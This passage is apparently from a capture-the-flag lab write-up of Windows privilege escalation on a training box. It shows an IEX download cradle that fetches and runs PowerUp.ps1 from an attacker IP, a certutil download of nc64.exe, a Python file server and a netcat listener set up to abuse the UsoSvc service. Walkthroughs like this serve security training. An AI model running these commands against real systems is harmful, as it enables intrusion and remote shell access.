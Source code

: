 
## Privilege Escalation

We will need to upload PowerUp.ps1 script to the remote machine.

[https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)


<div style="background-color: #1e2124; padding: 10px;">
PS C:\windows\system32\inetsrv> <span style="color:red">IEX(New-Object Net.WebClient).downloadString('http://10.10.14.2:8000/PowerUp.ps1')</span>
</div>
<br>





<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">PS C:\windows\system32\inetsrv> Invoke-AllChecks</span>
</div>
<br>

![image 16](https://raw.githubusercontent.com/thehunt1s0n/media/main/Remote-htb/image%20(16).png)




Let's abuse UsoSvc

https://github.com/int0x33/nc.exe/

Download Nc64.Exe To the remote machine:


<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$certutil.exe -urlcache  -f  http://10.10.14.2:8000/nc64.exe C:\\Windows\Temp\nc64.exe</span>
</div>
<br>


![image 17](https://raw.githubusercontent.com/thehunt1s0n/media/main/Remote-htb/image%20(17).png)

![image 18](https://raw.githubusercontent.com/thehunt1s0n/media/main/Remote-htb/image%20(18).png)


Start Python Http Server Locally
<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$python3  -m http.server 80</span>
</div>
<br>



Start NetCat Listener Locally
<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$rlwrap nc -nvlp 1234</span>
</div>
<br>
